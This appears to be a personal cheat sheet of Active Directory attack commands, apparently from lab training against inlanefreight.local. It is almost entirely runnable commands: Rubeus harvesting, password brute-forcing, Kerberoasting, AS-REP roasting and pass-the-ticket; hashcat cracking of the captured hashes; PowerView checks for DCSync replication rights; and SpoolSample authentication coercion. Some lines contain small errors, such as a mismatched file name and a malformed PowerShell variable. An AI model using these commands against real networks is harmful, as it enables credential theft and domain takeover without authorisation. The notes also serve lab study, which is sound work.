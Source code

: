 # Rebeus
https://github.com/GhostPack/Rubeus
[msDS-SupportedEncryptionTypes](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797)
```powershell
PS> Rubeus.exe harvest /interval:30
PS> echo XXX.XXX.XXX.XXX HOGE.com >> C:\Windows\System32\drivers\etc\hosts
PS> Rubeus.exe brute /password:Password1 /noticket
PS> Rubeus.exe kerberoast /stats
PS> Rubeus.exe kerberoast /outfile:hashes.txt
PS> Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
PS> Rubeus.exe kerberoast /user:testspn /nowrap
PS> Rubeus.exe asreproast
PS> Rubeus.exe asktgt /user:TEST-DC01$ /certificate:TestBase64EncodedText /ptt
```
```zsh
$ vim Rubeus_asreproast_TestUser_hash.txt
$ cat Rubeus_asreproast_TestUser_hash.txt
$ cat Rubeus_asreproast_TestUser_hash.txt | tr -d ' '
$ cat Rubeus_asreproast_TestUser_hash.txt | tr -d ' ' | wc -l
$ cat Rubeus_asreproast_TestUser_hash.txt | tr -d ' ' | tr -d '\n'
$ cat Rubeus_asreproast_TestUser_hash.txt | tr -d ' ' | tr -d '\n' | wc -l
$ cat Rubeus_asreproast_TestUser_hash.txt | tr -d ' \n\t'
$ cat Rubeus_asreproast_TestUser_hash.txt | tr -d ' \n\t' | sed 's/\$krb5asrep/\$krb5asrep\$23/'
$ cat Rubeus_asreproast_TestUser_hash.txt | tr -d ' \n\t' | sed 's/\$krb5asrep/\$krb5asrep\$23/' > ./Rubeus_asreproast_TestUser_hash_edit.txt
$ cat Rubeus_asreproast_TestUserhash_edit.txt
$ hashcat -m 18200 ./Rubeus_asreproast_TestUser_hash_edit.txt Pass.txt
```

# kirbi2john.py
```zsh
$ python2.7 kirbi2john.py TestUser.kirbi
```

# DCSync
```ps
# user: hoge
PS> Get-DomainUser -Identity hoge | select samaccountname,objectsid,memberof,useraccountcontrol |fl
# get sid
PS> sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

# SpoolSample.exe
```powershell
PS> SpoolSample.exe TestHost.HOGE.com "192.168.0.11"
```
